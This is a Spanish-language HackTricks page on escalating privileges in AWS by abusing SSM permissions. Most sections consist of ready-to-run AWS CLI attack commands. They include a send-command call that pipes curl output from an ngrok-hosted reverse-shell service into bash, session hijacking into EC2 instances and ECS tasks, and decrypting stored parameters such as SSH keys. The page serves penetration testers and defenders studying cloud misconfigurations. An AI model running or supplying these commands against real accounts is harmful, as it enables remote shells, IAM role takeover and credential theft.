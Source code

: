 # AWS - SSM Privesc

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## SSM

Para obtener más información sobre SSM, consulte:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Un atacante con el permiso **`ssm:SendCommand`** puede **ejecutar comandos en instancias** que ejecutan el agente Amazon SSM y **comprometer el rol IAM** que se ejecuta dentro de ella.

```bash
# Verificar las instancias configuradas
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Enviar comando de reverse shell
aws ssm send-command --instance-ids "$INSTANCE_ID" \
   --document-name "AWS-RunShellScript" --output text \
   --parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# Si estás en la máquina, puedes capturar el reverse shell dentro de ella
nc -lvnp 4444 #Dentro de la instancia EC2
aws ssm send-command --instance-ids "$INSTANCE_ID" \
   --document-name "AWS-RunShellScript" --output text \
   --parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```

**Impacto potencial:** Privesc directo a los roles IAM de EC2 adjuntos a las instancias en ejecución con agentes SSM en ejecución.

### `ssm:StartSession`

Un atacante con el permiso **`ssm:StartSession`** puede **iniciar una sesión similar a SSH en instancias** que ejecutan el agente Amazon SSM y **comprometer el rol IAM** que se ejecuta dentro de ella.

```bash
# Verificar las instancias configuradas
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Iniciar sesión de reverse shell
aws ssm start-session --target "$INSTANCE_ID"
```

**Impacto potencial:** Privesc directo a los roles IAM de EC2 adjuntos a las instancias en ejecución con agentes SSM en ejecución.

#### Privesc a ECS

Cuando las **tareas de ECS** se ejecutan con **`ExecuteCommand` habilitado**, los usuarios con suficientes permisos pueden usar `ecs execute-command` para **ejecutar un comando** dentro del contenedor.\
Según [**la documentación**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), esto se hace creando un canal seguro entre el dispositivo que usa para iniciar el comando "_exec_" y el contenedor de destino con SSM Session Manager.\
Por lo tanto, los usuarios con `ssm:StartSession` podrán **obtener una shell dentro de las tareas ECS** con esa opción habilitada simplemente ejecutando:

```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```

![](<../../../.gitbook/assets/image (55).png>)

**Impacto potencial:** Privesc directo a los roles IAM de `ECS` adjuntos a las tareas en ejecución con `ExecuteCommand` habilitado.

### `ssm:ResumeSession`

Un atacante con el permiso **`ssm:ResumeSession`** puede volver a **iniciar una sesión similar a SSH en instancias** que ejecutan el agente Amazon SSM con un estado de sesión SSM **desconectado** y **comprometer el rol IAM** que se ejecuta dentro de ella.

```bash
# Verificar las instancias configuradas
aws ssm describe-sessions

# Obtener datos de reanudación (probablemente necesitará hacer algo más con esta información para conectarse)
aws ssm resume-session \
    --session-id Mary-Major-07a16060613c408b5
```

**Impacto potencial:** Privesc directo a los roles IAM de EC2 adjuntos a las instancias en ejecución con agentes SSM en ejecución y sesiones desconectadas.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Un atacante con los permisos mencionados podrá listar los **parámetros SSM** y leerlos en texto claro. En estos parámetros, a menudo puede **encontrar información sensible** como claves SSH o claves API.

```bash
aws ssm describe-parameters
# Supongamos que encontraste un parámetro llamado "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```

**Impacto potencial:** Encontrar información sensible dentro de los parámetros.

### `ssm:ListCommands`

Un atacante con este permiso puede listar todos los **comandos** enviados y, con suerte, encontrar **información sensible** en ellos.

```
aws ssm list-commands
```

**Impacto potencial:** Encontrar información sensible dentro de las líneas de comando.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Un atacante con estos permisos puede listar todos los **comandos** enviados y **leer la salida** generada, con suerte encontrando **información sensible** en ella.

```bash
# Puede usar cualquiera de las dos opciones para obtener el ID de comando e ID de instancia
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```

**Impacto potencial:** Encontrar información sensible dentro de la salida de las líneas de comando.

### Codebuild

También puede usar SSM para ingresar a un proyecto de codebuild que se está construyendo:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>